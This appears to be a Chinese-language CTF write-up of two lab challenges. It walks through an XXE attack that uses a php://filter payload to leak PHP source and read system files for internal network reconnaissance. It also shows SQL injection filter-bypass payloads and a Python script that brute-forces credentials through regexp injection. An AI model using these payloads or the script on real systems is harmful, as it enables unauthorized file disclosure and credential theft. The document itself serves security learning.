 ## True XML cookbook
#XXE
![](attachments/Pasted%20image%2020240322183234.png)

外部DTD也可以使用、

![](attachments/Pasted%20image%2020240322184028.png)

读文件但是file协议可以读passwd不能读源码
换php协议

`php://filter/read=convert.base64-encode/resource=/var/www/html/doLogin.php`

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

查看内网信息
- /etc/hosts 
- /proc/net/arp

![](attachments/Pasted%20image%2020240322185417.png)

![](attachments/Pasted%20image%2020240322185440.png)

扫描内网


## SQLi

首页给信息

![](attachments/Pasted%20image%2020240322191347.png)

test的过程中发现有过滤

payload

```sql
passwd=||username/**/regexp/**/"^admi";%00&username=\
```

用户名为admin
同理爆破passwd

```python
import requests  
from urllib import parse  
  
url = "http://7dc4905f-0183-4a39-ab11-3442b184522b.node5.buuoj.cn:81/index.php"  
  
s = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&(),-./:;<=>@[\]_`{|}~'  
flag = ""  
  
  
while True:  
    for c in s:  
       dataUsername = {"username": "\\",  
             "passwd": "||username/**/regexp/**/\"^{}\";{}".format(flag + c, parse.unquote("%00"))  
             }  
       dataPassword = {"username": "\\",  
             "passwd": "||passwd/**/regexp/**/\"^{}\";{}".format(flag + c, parse.unquote("%00"))  
             }  
       response = requests.post(url=url, data=dataPassword)  
       if 'welcome.php' in response.text:  
          flag = flag + c  
          print(flag)  
          break
# 结尾为$ 说明到此位置 $ 正则
```

payload 
`passwd=you_will_never_know7788990&username=\`